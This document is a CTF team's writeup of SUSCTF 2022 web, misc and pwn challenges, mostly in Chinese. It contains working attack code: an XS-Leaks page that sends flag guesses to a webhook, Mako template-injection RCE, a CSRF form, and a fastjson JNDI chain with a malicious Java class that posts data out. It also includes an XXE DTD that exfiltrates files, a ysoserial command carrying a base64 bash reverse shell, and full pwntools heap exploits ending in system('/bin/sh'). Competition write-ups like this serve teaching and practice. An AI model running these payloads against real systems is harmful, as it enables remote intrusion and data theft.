本次2022 SUSCTF 我们 SU 取得了 第一名 🏆的好成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次 2022 SUSCTF的 writeup 

<!--more-->

# Web
## ez_note
```CoffeeScript
setTimeout(() => location = '{note_page}', 1000)
```
典型的跳转类型 XS-Leaks ，直接翻一下 [wiki](https://xsleaks.dev/docs/attacks/navigations/) 可以利用 `history.length` ，通过这个来检测是否发生了重定向
```HTML
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="robots" content="noindex">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
</head>

<body>
    <script>
      var flag = 'SUSCTF{'
      function send(msg) {
        fetch('https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b?msg=' + encodeURIComponent(msg))
      }
      function trying(keyword) {
        return new Promise(resolve => {
          var win = window.open('http://123.60.29.171:10001/search?q=' + keyword)
          setTimeout(() => {
            win.location = 'http://e050-220-133-126-220.ngrok.io/non.html'
            setTimeout(() => {
              if (win.history.length === 3) {
                send('success:' + keyword)
              } else {
                //send('fail:' + keyword)
              }
              win.close();
            }, 1000)
          }, 1500)
        })
      }

      async function run() {
        send('start')
        // }abcdefghijklmnopqrstuvwxyz0123456789_
        // }abcdefghijklmnopqrs
        // 
        let chars = '_abcdefghijklmnopqrstuv'.split('')
        //let chars = '}wxyz0123456789_'.split('')
        for(let char of chars) {
          const temp = flag + char
          trying(temp)
        }
      }

      setTimeout(() => {
        run()
      }, 1000)
      
    </script>
</body>
</html>
```
手动发了几次，就行了
（顺便说一下 reCAPTCHA 体验是真不好，不如换一下 gtest 啥的验证码。

## HTML practice
提交 % 会导致生成的页面崩溃，fuzz 了一万遍，发现 `##` 可以让页面为空，猜想是某种语言或者框架的注释符。
一段搜索，发现有可能是 mako 框架，尝试使用 mako 框架的循环：
```Erlang
% for a in (1,2,3):
    1
% endfor
```
发现页面成功渲染了 3 个 1 ，意味着确实执行了我们的循环语句，接着翻文档，发现可以直接调用 `os.system` ，并且配合参数 `name` 进行 RCE
```CSS
% for a in (self.module.cache.util.os.system(name),2,3):
    1
% endfor
```
结合题目描述的 `./tamplate` ，直接尝试创建一个文件发现可行，于是直接将 flag 内容打出来到目录下：
```Bash
cat /flag > ./template/xxxx.html
```
访问就是 flag 了

## fxxkcors
简单的 CSRF ，服务没有验证 JSON 的 content-type ，所以直接放一个表单给 admin 访问就可以让我们提升权限了
```HTML
<body>
    <form id=a action="http://124.71.205.122:10002/changeapi.php" method="POST" enctype="text/plain">
      <input name='{"username":"fweewfwef", "abc":"' value='123"}'>
    </form>
    <script>
      a.submit()
    </script>
</body>
```

## rubbish maker
This challange was more rev than web.
### Statement
```JavaScript
I have made some rubbish for you,i guess you won’t enjoy it  
http://123.60.67.19/  
container restart for every 2 hours
```
Going to the link gives us:
```Assembly%20language
./code/8ca5c8ec00628042f7028492fdf2986f

your code at ./code/8ca5c8ec00628042f7028492fdf2986f/index.php

you can view it at ./code/8ca5c8ec00628042f7028492fdf2986f/index.txt
```
And downloading `index.txt` gives us heavily obfuscated php code. This file also changes every two hours so we must write general automated deobfuscator since doing it manually and case by case will be useless after two hours. This writeup is for specific version I got but should be general enough.
Here’s my [index.php](https://drive.google.com/file/d/1DCKPqSWfD7UpO99rGGY5IzKjmUTYqxrc/view?usp=sharing)
### Deobfuscation
- Observe that there is a big function at the start which is called many times.
- We see that the argument that this function takes is xor’d to something constant so first we replace all `f({x})` with `f({x} xor {that constant})` and also replace the xor’s in the function itself. This will get rid of most bad bytes. We must also be careful to do everything as bytes and not uf8 strings.
- Then we observe that we can try to call the function with these values and see if result is always same. As it turns out function is only dependent on it’s argument. So we generate php code to call each 
  ```
  f({x})
  ```
   and replace the calls with this value everywhere with the resulting value.
  - sometimes the value that this function returns is a closure and we use closure dumping code from stackoverflow for that
- At this point we can remove the function in the beggining and code would still work
- There’s a lot of encodings(rot13, base64, strrev…) so we try to get them replaced as well
```Python
import re
import base64

fb = open('index.php', 'rb').read()
# print(fb)
fn_name = b'NtjNSJyp'
i=-1

x = b'NaDKRCAe'

woah = b''
def escb(b: bytes) -> bytes:
    b = b.replace(b'\\\\', b'\\')
    b = b.replace(b"\\'", b"'")
    return b

sv = set()
while True:
    i = fb.find(fn_name, i+1) 
    if i==-1:
        break
    if i==16:
        continue

    jl = i+len(fn_name)+2
    jr = fb.find(b"')", jl)
    if jr-jl<8:
        jr = fb.find(b"')", jr+1)

    # jr-=1
    # while fb[jr-1] == ord('\\') and jr-jl:
    #     jr = fb.find(b"'", jr+1)

    # print('aaaaa:', chr(fb[jr-1]))
    # print(i)
    s = (fb[jl:jr])
    s = s.replace(b'\\\\', b'\\')
    s = s.replace(b"\\'", b"'")
    assert len(s) == 8
    r = (bytes(a ^ b for (a, b) in zip(s, x)))
    fb = fb[:jl] + r + fb[jr:]
    print(r)
    sv.add(r)

    # print(eval(fb[jl:jr]))
# print(fb)
fb = fb.replace(b'$DenKBzmP ^ $rbcwAIhe', b'$DenKBzmP')
fb = fb.replace(fn_name, b'f')
dumper = '''

function closure_dump(Closure $c) {
    $str = 'function (';
    $r = new ReflectionFunction($c);
    $params = array();
    foreach($r->getParameters() as $p) {
        $s = '';
        if($p->isArray()) {
            $s .= 'array ';
        } else if($p->getClass()) {
            $s .= $p->getClass()->name . ' ';
        }
        if($p->isPassedByReference()){
            $s .= '&';
        }
        $s .= '$' . $p->name;
        if($p->isOptional()) {
            $s .= ' = ' . var_export($p->getDefaultValue(), TRUE);
        }
        $params []= $s;
    }
    $str .= implode(', ', $params);
    $str .= '){' . PHP_EOL;
    $lines = file($r->getFileName());
    for($l = $r->getStartLine(); $l < $r->getEndLine(); $l++) {
        $str .= $lines[$l];
    }
    return $str;
}

'''.encode()

fb = fb.splitlines()
fb = b'\n'.join(fb[:1] + [dumper] + fb[1:])

s = fb[:(fb.find(b'PeuuUVqY'))]

import subprocess
sv = sorted(list(sv))
C_F = 0 
closures = b''
for v in sv:
    l = s.splitlines()[:-1]
    l.append(f"echo f('{v.decode()}');echo 'ABABA';".encode())
    l.append(f"echo f('{v.decode()}');echo 'ABABA';".encode())
    l.append(f"echo f('{v.decode()}');echo 'ABABA';".encode())
    d = b'\n'.join(l)
    open('res.php', 'wb').write(d)
    out = subprocess.Popen(['php', './res.php'], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    if out.wait() == 0:
        outlines = [ln for ln in out.stdout.read().split(b'ABABA')]
        outlines = outlines[:3]
        print(outlines)
        if len(set(outlines)) == 1:
            print(v, outlines[0])
            fb = fb.replace(f"f('{v.decode()}')".encode(), b"\'"+outlines[0]+b"\'")
        else:
            assert 0
    else:
        print("DUDU IS HERE")
        l = s.splitlines()[:-1]
        l.append(f"echo closure_dump(f('{v.decode()}'));".encode())
        d = b'\n'.join(l)
        open('res.php', 'wb').write(d)
        out = subprocess.Popen(['php', './res.php'], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
        out.wait()
        closure_name = f'fclosure_{C_F}'
        closure_code = out.stdout.read()
        if b' == ' in closure_code:
            closure_name = 'f_eq'
        if b' !== ' in closure_code:
            closure_name = 'f_noteq'
        if b' %' in closure_code:
            closure_name = 'f_mod'
        if b' && ' in closure_code:
            closure_name = 'f_and'
        if b' * ' in closure_code:
            closure_name = 'f_mul'
        if b' << ' in closure_code:
            closure_name = 'f_shl'
        if b' - ' in closure_code:
            closure_name = 'f_sub'
        if b' > ' in closure_code:
            closure_name = 'f_greater'
        if b' ?? ' in closure_code:
            closure_name = 'f_coalesce'
        if b' + ' in closure_code:
            closure_name = 'f_add'
        closure_name = '$'+closure_name
        closures += f'{closure_name}='.encode() + closure_code
        closures += b'\n\n'
        fb = fb.replace(f"f('{v.decode()}')".encode(), closure_name.encode())
        C_F+=1
pattern = re.compile(r"'gzinflate'\('(.*?)'\)".encode(), flags=re.DOTALL)
for m in re.finditer(pattern, fb):
    print(m.group(0), m.group(1))
    b = escb(m.group(1))
    if b'\\' in b:
        print(b)
    open('res.php', 'wb').write(b'<?php\necho ' + m.group(0) + b'?>')
    out = subprocess.Popen(['php', './res.php'], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    if out.wait() == 0:
        fb = fb.replace(m.group(0), b"'" + out.stdout.read() + b"'")
pattern = re.compile(r"'join'\(''(.*?)\)\)".encode(), flags=re.DOTALL)

for m in re.finditer(pattern, fb):
    print(m.group(0), m.group(1))
    b = escb(m.group(1))
    if b'\\' in b:
        print(b)
    open('res.php', 'wb').write(b'<?php\necho ' + m.group(0) + b'?>')
    out = subprocess.Popen(['php', './res.php'], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    if out.wait() == 0:
        fb = fb.replace(m.group(0), b"'" + out.stdout.read() + b"'")

pattern = re.compile(r"'strrev'\('(.*?)'\)".encode())
for m in re.finditer(pattern, fb):
    print(m.group(0), m.group(1))
    b = escb(m.group(1))
    if b'\\' in b:
        print(b)
    fb = fb.replace(m.group(0), b"'" + m.group(1)[::-1] + b"'")


pattern = re.compile(r"'base64_decode'\('(.*?)'\)".encode())
for m in re.finditer(pattern, fb):
    print(m.group(0), m.group(1))
    b = escb(m.group(1))
    if b'\\' in b:
        print(b)
    fb = fb.replace(m.group(0), b"'" + base64.b64decode(m.group(1)) + b"'")

pattern = re.compile(r"'str_rot13'\('(.*?)'\)".encode(), flags=re.DOTALL)
for m in re.finditer(pattern, fb):
    print(m.group(0), m.group(1))
    b = escb(m.group(1))
    if b'\\' in b:
        print(b)
    open('res.php', 'wb').write(b'<?php\necho ' + m.group(0) + b'?>')
    out = subprocess.Popen(['php', './res.php'], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    if out.wait() == 0:
        fb = fb.replace(m.group(0), b"'" + out.stdout.read() + b"'")

fb = fb.splitlines()
fb = b'\n'.join(fb[:1] + [closures] + fb[1:])
open('ans.php', 'wb').write(fb)
exit(0)
```
This is where my deobfuscator ends and I figured I could do rest in less than 2 hours and faster than writing code for it.
### Manual labor :)
Main obfuscation that is left is `goto`'s I started from first goto and would cut and paste `goto` where it was intended. going along reading code and understanding which branch was useless. There was also some `xdebug` stuff which I don’t know what it is. I guess it’s anti debugging feature.
So here’s the important code left:

```PHP
<?php 
$f_eq=function ($AqgGmhEL, $yglIFDcU){
        return $AqgGmhEL == $yglIFDcU;
    };
$f_mod=function ($lVAHbUyT, $ZmDBPQQb){
        return $lVAHbUyT % $ZmDBPQQb;
    };
$f_noteq=function ($UkaweGRn, $BTnLyVMj){
        return $UkaweGRn !== $BTnLyVMj;
    };
$f_shl=function ($brwBPZbi, $XSqYpVLM){
        return $brwBPZbi << $XSqYpVLM;
    };
$f_add=function ($chPCUzwi, $jQZIfWpC){
        return $chPCUzwi + $jQZIfWpC;
    };
$f_and=function ($GCzgcwRK, $RpMPZpmj){
        return $GCzgcwRK && $RpMPZpmj;
    };
$f_coalesce=function ($jfqPCCoG, $xPNsVfmy){
        return $jfqPCCoG ?? $xPNsVfmy;
    };
$f_sub=function ($RwedYeNC, $PXlHwEDN){
        return $RwedYeNC - $PXlHwEDN;
    };
$fclosure_8=function ($rawCNgUo, $QHoVWrjC){
        return $rawCNgUo || $QHoVWrjC;
    };
$f_mul=function ($ViVEpUJC, $bswJJhBe){
        return $ViVEpUJC * $bswJJhBe;
    };
$f_greater=function ($BQzBQbgM, $NMCgZusp){
        return $BQzBQbgM > $NMCgZusp;
    };

$g_1 = $g_2 = $g_3 = $g_4 = $g_5 = $DqWdnYFI = null;

$g_1 = $_GET['JnXB'];
$g_2 = $_GET['xMSd'];
$g_3 = $_GET['kgdG'];
if ($f_eq($f_add($f_add($g_1, $g_2), $g_3), $f_mod(1773, 1056))) {
    $g_4 = $_GET[$g_1];
}

WknXvLos:

if ($f_eq($f_add($f_add($g_1, $g_2), $g_3), $f_coalesce($JXNMXmCP, 266))) {
    $g_5 = $_GET[$g_2];
} else {
    $g_5 = $f_add($f_add($g_1, $g_2), $g_3);
}

switch ($_GET[$g_4]) {
    case $f_sub('2624yAXHpMmO', 2623):
        $g_4 = $fclosure_8('parse_str'('BOFs=L2ZsYWc=', $oIZrLxSJ), $oIZrLxSJ) ? 'base64_decode'($oIZrLxSJ['BOFs']) : $oIZrLxSJ;
        break;
    case $f_sub('41PvInuuZE', 39):
        $g_5 = $_GET[$g_2];
        break;
    case $f_sub('4753VUgALPCe', 4750):
        eval($g_5);
        break;
    case $f_add($f_shl(1, 2), 0): // I chose to go down this branch
        $DqWdnYFI = $fclosure_8('parse_str'('ISzI=ZkZzZXBhTVc=', $FKFDXVHC), $FKFDXVHC) ? 'base64_decode'($FKFDXVHC['ISzI']) : $FKFDXVHC;
        break;
    default:
        break;
}
if ($f_and($f_and($f_and($_GET[$DqWdnYFI], $f_eq($g_5, $g_4)), $f_greater($g_1, $f_sub('7299EPrJnVdz', 6299))), !'strpos'($_GET[$DqWdnYFI], '/flag'))) {
    'readfile'($_GET[$DqWdnYFI]);
}
```
I’ve renamed variables that we might control as $g_x. We can either control g_4 or g_5. But controlling g_5 loses us control over the big switch so I chose to control g_4. to get flag using final `readfile` g_5 needs to be equal to g_4. There’s more so I won’t bore you with it…
Basically after going though many cases I’ve figured out final parameters that was needed for solution:
```Apache
JnXB=1001&xMSd=10&kgdG=-294&1001=717&717=4&fFsepaMW=/flag
```
It’s just case work and not really interesting. It took me 2 restarts of the challenge so about 4-5 hours.

## baby gadget v1.0
`/;/admin` 可以绕过登录，但是得在 burp ，浏览器会被跳转
> 在队友的 Fuzz 下发现 密码 是个 弱密码 admin:admin123
发现 /;/admin/download.jsp?filename=lib.zip 下到了依赖，看到有 fastjson ，一顿搜。然后根据 [红队武器库: fastjson 小于 1.2.68 全漏洞RCE利用 exploit](https://zeo.cool/2020/07/04/红队武器库!fastjson小于1.2.68全漏洞RCE利用exp/) 直接试一下能不能产生 dnslog
```JSON
{"abc":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}
```
但是比较蛋疼的是我这个脚本小子用一些 JNDI 工具竟然打不了，触发了恶意类访问但是没反弹回来 shell ，于是根据文章自己手动搭建一个恶意的服务
```HTTP
POST /;/admin/mailbox.jsp HTTP/1.1
Host: 124.71.187.127:20012
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 115

inputtext={"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://ip:port/Exploit"}}

```

```python
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ip:8888/#Exploit" 9999
python3 -m http.server --bind 0.0.0.0 8888
```
```java
import java.io.*;
import java.net.*;
import java.util.*;

public class Exploit{
    public Exploit() throws Exception {
        String str = "test";
        URL url = new URL("https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b");
        Map<String,Object> params = new LinkedHashMap<>();
        params.put("msg", str);
        StringBuilder postData = new StringBuilder();
        for (Map.Entry<String,Object> param : params.entrySet()) {
            if (postData.length() != 0) postData.append('&');
            postData.append(URLEncoder.encode(param.getKey(), "UTF-8"));
            postData.append('=');
            postData.append(URLEncoder.encode(String.valueOf(param.getValue()), "UTF-8"));
        }
        byte[] postDataBytes = postData.toString().getBytes("UTF-8");

        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("POST");
        conn.setRequestProperty("Content-Type", "application/x-www-form-urlencoded");
        conn.setRequestProperty("Content-Length", String.valueOf(postDataBytes.length));
        conn.setDoOutput(true);
        conn.getOutputStream().write(postDataBytes);
        Reader in = new BufferedReader(new InputStreamReader(conn.getInputStream(), "UTF-8"));
    }

    public static void main(String[] args) throws Exception {
    }
}
```

发现可以产生请求，于是刚开始尝试列目录，失败。

```Java
String str = "";
try{      
  File f = new File("/var");
  File[] paths = f.listFiles();
  str = paths.toString();
  for (int i = 0; i < paths.length; i++) {
    str += paths[i].toString() + ",";
  }
 
} catch(Exception e){
   str = e.toString() + "," + e.getMessage();
}
```
用 `try/catch` 发现是个不知道什么鬼 `java.lang.reflect.InvocationTargetException` 的报错，可能是什么 waf ，没细究，直接读 /flag ，发现可以读到，完事。
```Java
File f = new File("/etc/passwd");
Scanner sc = new Scanner(f);
while (sc.hasNextLine()){
    str += sc.nextLine(); 
}
```
//你要问我为啥行，俺也不知道，俺就是个脚本小子 hhhh 
## baby gadget v1.0's rrrevenge
同上做法
## baby gadget v2.0
登陆抓包发现 xxe，简单测试后发现有 waf，用 utf-16be 可以绕，依照提示读 hint.txt 发现提示 name过长，用dtd外带即可：
文件 xxe.xml
```XML
<?xml version="1.0" encoding="UTF-16" ?>
<!DOCTYPE users[
<!ENTITY % file SYSTEM "file:///hint.txt">
<!ENTITY % remote SYSTEM "http://vps/1.dtd">
%remote;
%all;
]>

<user><number>123</number><name>&send;</name></user>
```
icon转一下：
```Bash
iconv -f utf-8 -t utf-16be < xxe.xml > xxe-utf-16.xml
```
通过hint下载到源码是 java 字节码 可以直接反序列化，发现有黑名单类，但没有对 JRMPListener 做过滤，所以直接通过 jrmp 打 cc 就可以直接rce
```Bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 2333 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvMjMzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}"
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient xxx.xxx.xxx.xxx:2333 
```

## baby gadget v2.0' revenge
同上做法

# Misc
## Checkin
Discord频道给机器人私发">flag"可以得到一闪而过的flag，考虑使用录屏来获取。


## ra2 
直接玩游戏即可得到flag：SUSCTF{RED_ALERT_WINNER!!!}


## Tanner
首先根据校验矩阵还原码字
然后在ID3处发现的hint：THE FLAG IS the sha256 of the sum ofthe proper codewords(binary plus)which satisfy the condition.(note: with no zeros front)
于是将所有满足的码字的二进制数据相加之后去sha256得到flag：SUSCTF{c17019990bf57492cddf24f3cc3be588507b2d567934a101d4de2fa6d606b5c1}

## AUDIO
听fromfreiend的音频可以在30s部分听见比较明显的morse电码声音,而原始音频无杂音。因此猜测是否两者可以进行叠加而消除而只保留morse电码声音,网上搜了一下,发现b站教程一大堆,大部分都是用au进行。随便乱调,发现在等于-6dB时可以只听见清晰的电码声音,于是开始导出文件看频谱,可以很清晰得看到明显的morse电码


... ..- ... -.-. - ..-. -- .- ... - . .-. --- ..-. .- ..- -.. .. ---

最后加上{}
SUSCTF{MASTEROFAUDIO}

## misound
### 非预期
音频丢进Silenteye得到base64解码后内容为
207 359 220 224 352 315 359 374 290 310 277 507 391 513 423 392 508 383 440 322 420 427 503 460 295 318 245 302 407 414 410 130 369 317

Au看频谱得到字符串   AnEWmuLTiPLyis_etimes_wiLLbEcomE_B
分割一下，大概是
  a new multiply is e times _ will become b

翻译得到：一个新的乘法是e乘以_将变成b
hint:乘法使用ASCII码相乘
 _的ASCII值是95 

```Python
num = ['207',' 359',' 220',' 224 ','352 ','315 ','359 ','374',' 290 ','310',' 277',' 507 ','391 ','513 ','423',' 392 ','508 ','383',' 440 ','322',' 420',' 427',' 503 ','460 ','295',' 318 ','245',' 302 ','407',' 414',' 410',' 130 ','369 ','317']
a = 'AnEWmuLTiPLyis_etimes_wiLLbEcomE_B'
#一个新的乘法是e乘以u将变成b

#369可以是用_下标或者循环求出来
#print(((ord('_') * ord('e'))/num[i]))
#当num[i]等于369时候，值最接近整数#26.00271002710027
#然后计算了一下95*101和369*26的是相差是1
#猜测加密算法95*101=369*26+1
#测试猜想：（207*26+1）/65等于82.8向上取整是83，然后是S字符

flag = ''
for i in range(len(num)):
    flag = flag + chr(round((int(num[i]) * 26 + 1)/ord(a[i])))
print(flag)
```
（属于是经典非预期了，由于乘积出来的数足够大，这里的 +1 其实在一定范围内取值都行，都没用到 SSTV 那东西 hhh
# Pwn
## rain
这题也不需要完全逆完，就抓可能产生漏洞的地方分析构造就好。首先，很容易关注到`config`中`realloc`那里，当`size = 0`的时候，相当于`free`，然后再通过`realloc`往这个已经在`tcache`中的堆块写入数据，修改其`next`指针（其实就是个`UAF`），就可以进行劫持了，这里由于是`2.27(1.2)`版本的`libc`，因此还可以进行`double free`。不过，这里有两个地方要考虑一下，第一个就是需要泄露`libc`的基地址，第二个就是如何将我们伪造的堆块申请出来。对于第一个问题，我们容易想到，可以通过更改存放字母表的地址，再打印出来，就能造成信息泄露了，既然要更改存放字母表的地址，自然最方便的就是劫持整个结构体了，我们用`raining`刷新一下后，会通过`malloc(0x40)`申请一个堆块存放这个结构体，而我们可以在之前通过`realloc`那里`double free`一个`0x50`的堆块，这里就会申请出其中一个存放这个结构体，而在之后我们再用`realloc`申请出另外一个，就可以劫持到结构体了，这里由于没开`PIE`，故直接将存放字母表的地址改成某个`elf`的`got`表地址，就可以泄露出`libc`基地址了。再考虑第二个问题，如何申请出伪造的堆块，其实思路是类似地，先用`raining`刷新后，通过申请结构体那里申请出一个堆块，再在之后`realloc`申请出的就是伪造的堆块了，也就可以进行任意写了，这里劫持的是`__free_hook`，再通过`realloc(0)`调用`free`即可。
```Python
from pwn import *
context(os = "linux", arch = "amd64", log_level = "debug")

#io = process('./rain')
io = remote('124.71.185.75', 9999)
elf = ELF('./rain')
libc = ELF('./libc.so.6')

def send_data(heigh, width, front_color, back_color, rainfall, content):
    io.sendlineafter('ch> ', b'1')
    payload = p32(heigh) + p32(width) + p8(front_color) + p8(back_color) + p32(rainfall)
    payload = payload.ljust(18, b'a')
    payload += content
    io.sendafter('FRAME> ',payload)

io.sendlineafter('ch> ', b'2')
send_data(1, 1, 0, 0, 1, b'a'*0x48)
send_data(1, 1, 0, 0, 1, b'')
send_data(0x50, 0x50, 0x2, 0x1, 0x64, b'a'*0x58)
io.sendlineafter('ch> ', b'3')
send_data(0, 0, 0, 0, 1, p32(0x1) + p32(0x1) + b'a'*0x20 + p64(0x400E17) + p64(elf.got['atoi']) + b'a'*0x10)
send_data(0x50, 0x50, 0x2, 0x1, 0x64, b'\x00')
io.sendlineafter('ch> ', b'2')
io.recvuntil("Table:            ");
libc_base = u64(io.recv(6).ljust(8, b'\x00')) - libc.sym['atoi']
success("libc_base:\t" + hex(libc_base))
io.sendlineafter('ch> ', b'3')
send_data(1, 1, 0, 0, 1, b'a'*0x48)
send_data(1, 1, 0, 0, 1, b'')
send_data(0x50, 0x50, 0x2, 0x1, 0x64, p64(libc_base + libc.sym['__free_hook'] - 8))
io.sendlineafter('ch> ', b'3')
send_data(1, 1, 0, 0, 1, b'/bin/sh\x00' + p64(libc_base + libc.sym['system']) + b'a'*0x38)
send_data(1, 1, 0, 0, 1, b'')
io.interactive()
```
## happytree
二叉排序树在删除根节点时,会把他第一个右子树的最小左子树和根节点内容互换然后删除最小左子树的堆块,但是删除堆块时左右子树的指针并未清空,如果重新将其malloc出来就会导致原来被删除的那个节点他的左右子树指针仍得到保留,因此可以得到一次double free 2.27未做限制,直接修改free_hook为system即可
```Python
from pwn import *
context.log_level= 'DEBUG'
context.arch = 'amd64'
context.terminal = ['tmux','sp','-h']
# sh = process('./happytree')
sh = remote("124.71.147.225",9999)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc.so.6')
# 
def menu(choice):
    sh.recvuntil("cmd> ")
    sh.sendline(str(choice))
    
def add(size,content):
    menu(1)
    sh.recvuntil("data:")
    sh.sendline(str(size))
    sh.recvuntil("content:")
    sh.send(content)

def delete(data):
    menu(2)
    sh.recvuntil("data:")
    sh.sendline(str(data))
def show(idx):
    menu(3)
    sh.recvuntil("data:")
    sh.sendline(str(idx))
    sh.recvuntil('12')
    data = sh.recv(6)
    return data
add(1,'a')
add(2,'a')
add(8,'/bin/sh\x00')

# gdb.attach(sh,'b * $rebase(0x10AA)')
for i in range(8):
    add(0xd0 + i,'aaa')
for i in range(8):
    delete(0xd7 - i)
for i in range(8):
    add(0xd0 + i,'11111112')
libc_base = u64(show(0xd7).ljust(8,b'\x00')) - 0x3EBCA0
libc.address = libc_base 
log.success("libc_base = " + hex(libc_base))
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
add(0xf2,'3')
add(0xf7,'3')
add(0xf6,'3')
add(0xf4,'3')
add(0xf5,'3')
add(0xf0,'3')
add(0xf1,'3')

delete(0xf2)
add(0xf8,'9')
delete(0xf5)

delete(0xf8)
# delete(0xf0)

delete(0xf7)
# gdb.attach(sh,'b * $rebase(0xF0F)')

# add(3,'a')
delete(1)
delete(2)
add(0xef,p64(free_hook))
add(0xee,p64(0))
add(0xed,p64(0))

add(0xec,p64(system))
delete(8)
sh.interactive()
```

## kqueue
### 非预期
```Shell
/ $ ls -al
drwxrwxr-x   14 ctf      ctf              0 Feb 27 11:54 .
drwxrwxr-x   14 ctf      ctf              0 Feb 27 11:54 ..
```
权限没配好,根目录ctf权限,直接非预期
`exp`如下：
```Shell
mv bin bin1
/bin1/mkdir bin
/bin1/chmod 777 bin
/bin1/echo "/bin1/cat /root/flag" > /bin/umount
/bin1/chmod 777 /bin/umount
exit
```
##  kqueue's revenge
diff了一下直接有flag
